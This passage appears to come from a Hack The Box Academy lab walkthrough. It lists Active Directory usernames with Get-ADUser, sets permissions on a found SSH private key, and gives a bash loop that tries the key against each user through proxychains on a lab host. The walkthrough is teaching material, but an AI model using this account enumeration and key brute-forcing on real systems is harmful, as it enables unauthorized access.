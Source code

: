 Subsequently, students will proceed to gather potential usernames using `Get-ADUser` while creating a list that will be used further to brute-force the user who:

Code: shell

```shell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName
```

```
PS C:\Users\ambioris> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName

Administrator 
Guest        
krbtgt       
Redpostmanrd 
Snowfreeze   
Lich
Crismerlin   
Helen
Tiltmanx
Maria
Jhomil
Thael
Leonvqz
Frewdy
Josias
Thesuperteacher
Ambioris
Filiplain
Xracer
```

Before engaging in brute-forcing the user that the key belongs to, students will change permissions of the `unknown_id_rsa` private key they previously downloaded:

Code: shell

```shell
chmod 600 unkown_id_rsa
```

```
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-qopykegfvv]─[~]
└──╼ [★]$ chmod 600 unknown_id_rsa
```

Students will either test each user one by one or write a similar bash script to automate the user account tests:

Code: bash

```bash
while read -r user; do
		echo "Trying user: $user"
		proxychains ssh -o BatchMode=yes -o StrictHostKeyChecking=no -i unknown_id_rsa $user@172.20.0.52 -p 2299 "exit" 2>/dev/null
		if [ $? -eq 0 ]; then
				echo "Login successful for user: $user"
				break
		fi
done < users.txt
```
